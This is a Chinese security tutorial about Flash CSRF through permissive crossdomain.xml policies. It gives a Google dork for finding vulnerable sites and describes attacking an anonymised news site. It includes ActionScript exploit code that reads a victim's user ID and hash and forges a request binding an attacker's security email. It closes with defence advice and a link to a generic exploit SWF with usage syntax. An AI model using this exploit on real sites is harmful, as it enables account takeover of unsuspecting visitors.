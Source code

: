 # Flash CSRF

目录
--

* * *

```
0x00 Flash CSRF 名词解释
0x01 Flash CSRF形成的原因
0x02 Flash CSRF可以干些什么
0x03 Flash CSRF如何利用
0x04 Flash CSRF怎么防御

```

0x00 Flash CSRF名词解释
-------------------

* * *

CSRF（Cross-site request forgery跨站请求伪造，是一种对网站的恶意利用，CSRF则通过伪装来自受信任用户的请求来利用受信任的网站。

Flash CSRF通常是由于Crossdomain.xml文件配置不当造成的，利用方法是使用swf来发起跨站请求伪造。

0x01 Flash CSRF形成的原因
--------------------

* * *

So 官腔我们也打了，还是要干点实事PS：:)

为人民服务的好孩子，我们来看看如何寻找Flash CSRF:

首先我们要知道怎么形成CSRF的

PS:CSRF形成的原因大概有以下几种：

Flash跨域权限管理文件设置为允许所有主机/域名跨域对本站进行读写数据：

```
This XML file does not appear to have any style information associated with it. The document tree is shown below.
<cross-domain-policy>
    <allow-access-from domain="*"/>
</cross-domain-policy>

```

Flash跨域权限管理文件过滤规则不严(domain=”*”)，导致可以从其它任何域传Flash产生CSRF。

0x02 如何来发现哪些地方存在Flash CSRF
--------------------------

* * *

骚年们，前面我们介绍了形成Flash CSRF的原因，我们是不是就可以对站下药了，难道又有一波个人资料被莫名被修改成“狗皮膏药”广告的节奏啊，敬告各位看官，看见了这篇文章之后请检查自己的站是否存在Flash CSRF以免减少被举报而带来的巨额损失啊（吊丝们对各位看官望尘莫及啊）：

由上面我们得知Flash CSRF是因为跨域权限管理文件配置不当而产生的，所以我们可以在根目录打开Crossdomain.xml来查看该网站或者只域名是否存在FLAH的CSRF：

```
http://www.xxx.com/crossdomain.xml

```

  

```
This XML file does not appear to have any style information associated with it. The document tree is shown below.
<cross-domain-policy>
<allow-access-from domain="*"/>
</cross-domain-policy>

```

0x02 Flash CSRF可以干些什么
---------------------

* * *

在一个月黑风高的夜晚，Flash CSRF慢慢的在向XX网靠近，下面说说我是怎么找到XX网的Flash CSRF和利用XX网的Flash CSRF直接修改访问者账号信息。

无聊的逛着各大新闻网站，感觉这些大部分新闻网站的新闻源都差不多没几下就看完了，最后觉得自己作为天朝一员还是应该关系关系下国家大事，就懵懂懂的打开了XX网，关心了下我国基本国情，始终耐不住寂寞，正好前两天学习了Flash CSRF的原理和危害，但是一直没找到东西练手，大家都知道天朝的网站是多么的牛B，但是也只是抱着试试的心态，完全就是小孩子玩玩泥巴而已了，玩笑时间到，回到正题:),我先打开xx网，按照刚刚前面查找该网站是否有Flash CSRF漏洞我们第一步该判断什么？没错就是看官们看到的这样，我也只是个凡人而已。。。。于是就有了如下的FlashCSRF漏洞查找流程：

```
Google hack:crossdomain filetype:xml

```

  

```
This XML file does not appear to have any style information associated with it. The document tree is shown below.
<cross-domain-policy>
<allow-access-from domain="*" secure=”true”/>
</cross-domain-policy>

```

Secure=true的意思是只允许通过安全链接来请求本域的数据。

随手查看了发现前2个全都是需要用ssl证书加密了之后的网站里面的Flash的文件才能获取本域的内容，突然之间脑海就浮现了一种奇怪的想法，自己搭建SSL网站，然后调用Flash文件进去不就可以读他们网站的数据和发送post请求，可是又遇见瓶颈了，找了这么多地方我Flash还没有地方可以插的，在不屑努力下，找到BLOG根目录下面的CrossDomain.xml文件居然允许所有主机的Flash读取本域的数据-PS：），下面我们就试试BLOG页面,发现也有，当然耐心也是必须的。

0x03 Flash CSRF如何利用
-------------------

* * *

我们找一个可以插入Flash的地方，插入我们自己写的Flash，访客访问我们网页就会执行我们写的脚本，下面我们来看看Flash CSRF具体利用方法。 So~下面我们来制造一个访客访问我们链接的时候，自动设置自己的密保邮箱：

首先我们添加保密邮箱点提交，然后抓包分析它提交了什么内容，然后来构造我们的Flash CSRF利用代码,下面我们提交绑定保密邮箱请求，抓包分析它的数据。 申请保密邮箱，浏览器向服务端发送了一个POST请求，请求地址和参数为：

```
POST:xxx.xxx.xx/xx.jsp?userid=xxxx&mail=dddd@dddd.com

```

由于我们之前测试保密邮箱得知服务端没有验证Referer，但是页面验证了Token，所以我们就可以直接把POST数据包中的请求地址，参数名，参数值，Token值取出来用于伪造绑定保密邮箱的请求。

利用代码：

```
package {
    import flash.display.Sprite;
    import flash.events.Event;
    import flash.net.*;
    import flash.text.TextField;
    public class url extends Sprite
    {
        public function url()
        {
            //获取当前页面userid/token
            var echo_txt:TextField = new TextField();
            var targetURL:String = "http://xx.xx.cc";
            var request:URLRequest = new URLRequest(targetURL);
            request.method = URLRequestMethod.GET;
            request.data = "";
            sendToURL(request);
            var loader:URLLoader=new URLLoader();
            loader.addEventListener(Event.COMPLETE,completeHandler);
            function completeHandler(event:Event):void{
            var userid:String=((loader.data+"").match(/\/xxxx\/mxxxx\.php\?xxid=(\d+)/)||["",""])[1];

 var masthash:String=((loader.data+"").match(/\/xxxx\/mxxxx\.php\?masthash=(\d+)/)||["",""])[1];
            echo_txt.text =  masthash;
            //伪造申请密保邮箱POST请求
            var emailtargetURL:String = "http://xxxxxx.xx.cc/xxxx/xxxx.jsp?mark=send";
            var emailrequest:URLRequest = new URLRequest(emailtargetURL);
            emailrequest.method = URLRequestMethod.POST;
            var postdata:Object = new Array();
            postdata[0]="xxxx=xxxx@xxx.cc&xxxx="+xxxxx&"xxxxx="+xxx;
            emailrequest.data = postdata[0];
            sendToURL(emailrequest);
            }
            loader.load(request);
        }
    }
}

```

我们用一个新账号来做测试看看效果 ：）

0x04 Flash CSRF怎么防御
-------------------

* * *

知道Flash CSRF攻击流程，然后在防御就so easy了~:)

妈妈再也不担心我被Flash CSRF啦~虽然各位看官都明白了怎么防御，但是还是照例啰嗦一下啦：

一句话概括：站点根目录CrossDomain.xml跨域获取信息权限控制好，精确到子域，不给不法分子留下机会！！ 附一份自己网站的CrossDomain.xml文件权限配置：

```
<?xml version="1.0"?>
<cross-domain-policy>
  <allow-access-from domain="http://xx.xx.com" secure="true”/>
<allow-access-from domain="http://cc.xx.com" secure="true”/>
</cross-domain-policy>

```

根据自己的业务需求来更改CrossDomain.xml文件配置，切记精确到子域，这样会大大减少Flash CSRF的风险！

通用Flash CSRF EXP :[FlashCSRFexp.swf](http://static.wooyun.org/20141017/2014101716304958791.swf)

使用方法：

```
FlashCSRFexp.swf?url=http://www.xx.xx/x.jsp?&xx=xx&xx=xx&xx=xx&xx=xx
PS:url=[post请求的地址]&[参数值用&分开]

```

谢谢各位大牛捧场，十分感谢二哥，长短短，PKAV团队的技术栽培 :)~